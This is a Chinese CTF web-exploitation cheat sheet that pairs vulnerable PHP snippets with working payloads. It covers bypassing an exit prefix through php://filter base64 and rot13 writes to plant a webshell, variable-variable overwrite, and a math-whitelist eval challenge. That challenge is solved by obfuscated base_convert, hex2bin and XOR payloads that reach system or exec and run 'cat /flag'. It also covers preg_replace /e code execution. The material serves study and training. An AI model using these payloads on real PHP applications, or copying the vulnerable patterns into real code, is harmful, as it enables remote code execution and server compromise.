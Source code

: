 ## file_put_contents

```
<?php
$content = '<?php exit; ?>';
$content .= $_POST['txt'];
file_put_contents($_POST['filename'], $content);
```

①使用php://filter流的base64-decode方法会去掉字符串中非a-z0-9A-Z+/的字符而phpexit有七个字符，再加一个字符就可以进行base64解码，而我们后面的webshell即可进行正常解码

```
txt=a(base_encode_word)&filename=php://filter/write=convert.base64-encode/resource=shell.php
```

②或直接使用strip_tags去掉<?php exit; ?>，但是我们的php代码也会被去除，我们可以先使用strip_tags再使用base64或rot13进行解码

```
txt=(base_encode_word)&filename=php://filter/read=string.strip_tags|conver.base64-decode/resource=shell.php
```

③使用rot13单独完成任务

```
txt=<?cuc ?xxx>&filename=php://filter/write=string.rot13/resource=shell.php
```

## 变量覆盖

```
foreach ($_GET as $key => $value) {
    $$key = $$value;
}
```

```
解：GET:?a=flag&flag=a
```



## 数学RCE

```
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
?>
```

- `payload1:`

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=tac flag.php

分析：
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
```

- `payload2:`

  ```
  $pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
  
  分析：
  base_convert(696468,10,36) => "exec"
  $pi(8768397090111664438,10,30) => "getallheaders"
  exec(getallheaders(){1})
  //操作xx和yy，中间用逗号隔开，echo都能输出
  echo xx,yy
  ```

  - `payload3:`

```
//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
$pi=base_convert(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))


//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
```

- `payload4:`

  ```
  $pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag
  
  
  is_nan^(6).(4) => is_nan^64 =>_G
  tan^(1).(5) => tan^15 =>ET
  $pi=$$pi; =>$_GET
  $pi{0}($pi{1}) =>$_GET[0]($_GET[1])
  ```

  用脚本fuzz

  ```
  <?php
  $payload = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
  for($k=1;$k<=sizeof($payload);$k++){
      for($i = 0;$i < 9; $i++){
          for($j = 0;$j <=9;$j++){
              $exp = $payload[$k] ^ $i.$j;
              echo($payload[$k]."^$i$j"."==>$exp");
              echo "<br />";
          }
      }
  }
  ```

  

## preg_replace与代码执行

```
function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}
```

preg_replace 使用了 /e 模式，导致可以代码执行

```
官方payload为：`/?.*={${phpinfo()}}` ，即 GET 方式传入的参数名为 `/?.*` ，值为 `{${phpinfo()}}` 

原先的语句： preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
变成了语句： preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```

当preg_match函数在匹配到符号正则的字符串时，会将`'strtolower("\\1")'`这个参数当作代码来执行

但是由于非法传参，我们无法直接传入，所以找其他的正则

```
?\S*=${phpinfo()}
```

而为什么需要`${}`，是因为在 php 中，可以接受函数的返回值作为变量名，而`phpinfo()`的返回值为`TRUE`，将返回值返回作为了变量名，但是也将`phpinfo()`执行了

